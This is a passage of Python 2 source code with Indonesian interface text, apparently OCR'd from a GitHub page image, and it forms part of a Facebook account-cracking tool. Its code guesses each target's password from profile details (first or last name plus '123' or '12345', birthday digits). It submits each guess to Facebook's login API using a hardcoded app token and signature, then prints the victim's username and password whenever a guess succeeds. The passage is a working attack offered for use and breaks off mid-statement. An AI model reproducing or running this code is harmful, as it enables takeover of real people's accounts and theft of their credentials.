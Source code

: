\x1b[1;92mNama\x1b[1;97m : ' + a['name']             jalan('\x1b[1;91m[+] \x1b[1;92mMemeriksa \x1b[1;97m...')             time.sleep(2)             jalan('\x1b[1;91m[+] \x1b[1;92mMembuka keamanan \x1b[1;97m...')             time.sleep(2)             jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mMohon Tunggu sebentar \x1b[1;97m...')             print 40 * '\x1b[1;97m\xe2\x95\x90'             pz1 = a['first_name'] + '123'             data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=' + id + '&amp;locale=en_US&amp;password=' + pz1 + '&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6')             y = json.load(data)             if 'access_token' in y:                 print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'                 print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']                 print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id                 print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz1                 raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')                 menu_hack()             else:                 if 'www.facebook.com' in y['error_msg']:                     print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'                     print '\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint'                     print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']                     print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id                     print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz1                     raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')                     menu_hack()                 else:                     pz2 = a['first_name'] + '12345'                     data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=' + id + '&amp;locale=en_US&amp;password=' + pz2 + '&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6')                     y = json.load(data)                     if 'access_token' in y:                         print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'                         print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']                         print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id                         print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz2                         raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')                         menu_hack()                     else:                         if 'www.facebook.com' in y['error_msg']:                             print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'                             print '\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint'                             print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']                             print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id                             print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz2                             raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')                             menu_hack()                         else:                             pz3 = a['last_name'] + '123'                             data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=' + id + '&amp;locale=en_US&amp;password=' + pz3 + '&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6')                             y = json.load(data)                             if 'access_token' in y:                                 print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'                                 print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']                                 print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id                                 print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz3                                 raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')                                 menu_hack()                             else:                                 if 'www.facebook.com' in y['error_msg']:                                     print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'                                     print '\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint'                                     print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']                                     print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id                                     print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz3                                     raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')                                     menu_hack()                                 else:                                     lahir = a['birthday']                                     pz4 = lahir.replace('/', '')                                     data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=' + id + '&amp;locale=en_US&amp;password=' + pz4 + '&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6')